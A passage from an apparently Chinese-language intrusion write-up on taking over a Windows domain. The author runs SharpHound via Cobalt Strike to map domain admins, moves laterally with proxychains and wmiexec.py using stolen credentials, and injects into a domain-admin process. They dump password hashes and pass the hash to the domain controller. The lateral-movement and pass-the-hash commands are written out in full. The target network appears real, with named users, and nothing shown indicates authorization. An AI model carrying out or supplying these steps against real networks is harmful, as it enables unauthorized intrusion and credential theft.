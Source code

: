     
    
    execute-assembly /root/桌面/nw/SharpHound.exe -c all

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121230.png)

然后把他下载到本地进行分析：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121231.png)

可以看到当前只有四个域管理员：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121232.png)

由于当前跳板机器是DRAxx，我们就分析  DRAxx 的环境：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121234.png)

可以看到当前机器 DRAxx 可以到达 ERIDANUS.xxxx.xxx 机器，思路就是我们可以通过 ERIDANUS
拿到这台机器的权限，然后在拿到最近的域管！那么我们直接通过之前抓到的 ali.hamzeh 密码去横向 wmi 到 ERIDANUS：

  * 

    
    
    proxychains python3 wmiexec.py -shell-type cmd xxxx/ali.hamzeh:passsword@192.168.54.53 -codec gbk

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121235.png)

然后直接 Powershell 上线到 CobaltStrike：（太卡了这个 socks，又重开了一个 wmi）

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121236.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121237.png)

由于当前 ERIDANUS 机器没有 AV 直接提权把：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121238.png)

通过查看当前 ERIDANUS 机器发现的确如 SharpHound 分析那样有一个 ebrahim 域管的进程：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121239.png)

直接注入域管进程上线到 CobaltStrike 吧：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121240.png)

成功拿到域管权限！我为了好区分，绿色 beacon 是 域管！之后直接先抓下域管密码 hash：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121241.png)

有了域管的 hash 后，直接可以 PTH 域控：

  * 

    
    
    proxychains python3 wmiexec.py -shell-type powershell -hashes :84d562d8c6f5xxxxxxxxxx xxxxx/ebrahim@192.168.10.10 -codec gbk
